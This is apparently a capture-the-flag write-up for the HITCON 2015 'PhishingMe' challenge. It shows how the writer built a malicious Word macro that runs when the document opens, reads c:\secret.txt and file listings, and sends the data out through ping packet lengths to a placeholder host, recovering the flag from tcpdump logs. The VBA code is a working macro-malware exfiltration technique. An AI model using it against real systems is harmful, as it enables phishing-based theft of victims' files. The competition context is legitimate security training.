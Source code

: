 Title: PhishingMe

Description:

Sent me a .doc, I will open it if your subject is "HITCON 2015"! Find the flag under my file system. p.s. I've enabled Macro for you. ^_________________^ phishing.me.hitcon.2015@gmail.com.

Hint


From the information, we know this challenge is all about macro. Requirement will be,

- MS Windows
- Ms Word with Macro
- Email title with HITCON 2015
- Email Address to phishing.me.hitcon.2015@gmail.com

 Once all this condition is fulfilled. We received an confirmation email from HITCON
I've read your doc. Interesting
First guess was, ping to home 
Shell ("ping -n 1 my.ip.add.ress")
TCPDUMP from home with ICMP on. Bingo, we go packets We went and wrote few more connection script like email, web and DNS. Looks like we got no luck at all. So we concluded.

- NO Outgoing TCP Allowed
- NO Outgoing UDP Allowed (ppp solved it with DNS)

 Concluded only ICMP able to to go out from the box. So, we did another test. 
Shell ("ping -n 1 -l 2 my.ip.add.ress")
And we received 
11:29:43.643405 IP 54.92.10.249 > my.ip.add.ress: ICMP echo request, id 1, seq 2249, length 10
This is clear that we can somehow use the length to pass some data. So, first thing is. We want to know where are we.

strString = (ActiveDocument.Path)
For i = 1 To Len(strString)
    strHex = Hex(Asc(Mid(strString, i, 1)))
    strDec = CLng("&h" & strHex)
    strDec = strDec - 8
    MsgBox (strDec)
    'Shell ("ping -n 1 -l " & strDec & " my.ip.add.ress")
Next

Next From the ping with length, we convert back the Dec value back to ASCII, we got PATH Secondly, we go a "dir" 
Set objFSO = CreateObject("Scripting.FileSystemObject")
objStartFolder = (ActiveDocument.Path)


Set objFolder = objFSO.GetFolder(objStartFolder)
'MsgBox objFolder.Path
Set colFiles = objFolder.Files
For Each objFile In colFiles

    'MsgBox objFile.Name

    strString = objFile.Name

    For i = 1 To Len(strString)
        strHex = Hex(Asc(Mid(strString, i, 1)))
        'MsgBox strHex
        strDec = CLng("&h" & strHex)
        strDec = strDec - 8
        For iCount = 1 To 1000
        Next iCount
        Shell ("ping -n 1 -l " & strDec & " my.ip.add.ress")
    Next

    Shell ("ping -n 1 -l 34 my.ip.add.ress")
Next

Nothing seems to me interesting. So we change and code a little bit and do a dir on "C:\", we found secret.txt !!! Another peace of code to show what is in secret.txt 
Sub AutoOpen()


Dim MyString As String

'Open the text file
'(replace "MyTextFile.txt" with the name of your file)
Open "c:\secret.txt" For Input As #1

'loop through the file until the end of file marker
'is reached
Do While Not EOF(1)
    'read line of text, place it in the MyString variable
    Line Input #1, MyString
     'MsgBox (MyString)
    'you can then use whatever is in MyString for
    'your formatting purposes
Loop

'close the text file
Close #1

    strString = MyString
    'strString = "ABCD"

    For i = 1 To Len(strString)
        strHex = Hex(Asc(Mid(strString, i, 1)))
        'MsgBox strHex
        strDec = CLng("&h" & strHex)
        strDec = strDec - 8
        
        For iCount = 1 To 10000000
        Next iCount
        'MsgBox (strHex & " " & strDec)
        Shell ("ping -n 1 -l " & strDec & " my.ip.add.ress")
    Next


End Sub
From TCPDUMP we received 
11:29:41.058538 IP 54.92.10.249 > my.ip.add.ress: ICMP echo request, id 1, seq 2215, length 104 
11:29:41.058617 IP my.ip.add.ress > 54.92.10.249: ICMP echo reply, id 1, seq 2215, length 104 11:29:41.128465 IP 54.92.10.249 > my.ip.add.ress: ICMP echo request, id 1, seq 2216, length 105 
11:29:41.128542 IP my.ip.add.ress > 54.92.10.249: ICMP echo reply, id 1, seq 2216, length 105 
11:29:41.202369 IP 54.92.10.249 > my.ip.add.ress: ICMP echo request, id 1, seq 2217, length 116 
11:29:41.202441 IP my.ip.add.ress > 54.92.10.249: ICMP echo reply, id 1, seq 2217, length 116
--- More ICMP Traffic ---
11:29:44.321431 IP 54.92.10.249 > my.ip.add.ress: ICMP echo request, id 1, seq 2258, length 125
11:29:44.321527 IP my.ip.add.ress > 54.92.10.249: ICMP echo reply, id 1, seq 2258, length 125

By taking all the length, we got the string as 

hitcon{m4cr0_ma1ware_1s_m4k1ng_a_c0meb4ck!!}

Done !!! 

Special Thanks to k9
